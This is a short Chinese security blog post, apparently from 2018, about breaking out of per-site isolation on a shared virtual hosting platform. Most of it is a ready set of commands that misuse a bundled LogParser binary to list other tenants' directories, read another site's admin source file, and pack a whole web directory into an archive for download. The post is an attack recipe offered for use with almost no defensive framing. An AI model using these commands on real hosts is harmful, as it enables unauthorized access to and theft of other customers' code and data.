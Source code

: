 ```yaml
---
title: "星外虚拟主机跨目录"
date: 2018-01-27T00:00:00+08:00
draft: false
author: "X1r0z"

tags: ['vhost']
categories: ["CMS"]

hiddenFromHomePage: false
hiddenFromSearch: false
twemoji: false
lightgallery: true
ruby: true
fraction: true
fontawesome: true
linkToMarkdown: true
rssFullText: false

toc:
  enable: true
  auto: true
code:
  copy: true
  maxShownLines: 50
math:
  enable: false
share:
  enable: true
comment:
  enable: true
---
```



列目录 + 文件读取 + 文件打包

<!--more-->

可执行文件

```
c:\windows\7i24IISLOG.exe
c:\windows\7i24IISLOG2.exe
c:\windows\7i24IISLOG3.exe
c:\windows\7i24IISLOG4.exe
c:\windows\7i24tool.exe
c:\windows\rsb.exe
```

7i24IISLOG.exe 其实就是微软的 LogParser

列目录

`cmd: c:\windows\7i24IISLOG.exe "select top 100 path from d:\freehost\*.*" -i:FS -rtp:-1`

文件读取

`cmd: c:\windows\7i24IISLOG.exe "select text from d:\freehost\xinyuidc\web\admin\index.asp" -i:textline -rtp:-1`

文件打包

`cmd: c:\windows\7i24IISLOG3.exe d:\freehost\xinyuidc\web\ "C:\Documents and Settings\All Users\Application Data\Microsoft\Media Index\web.rar"`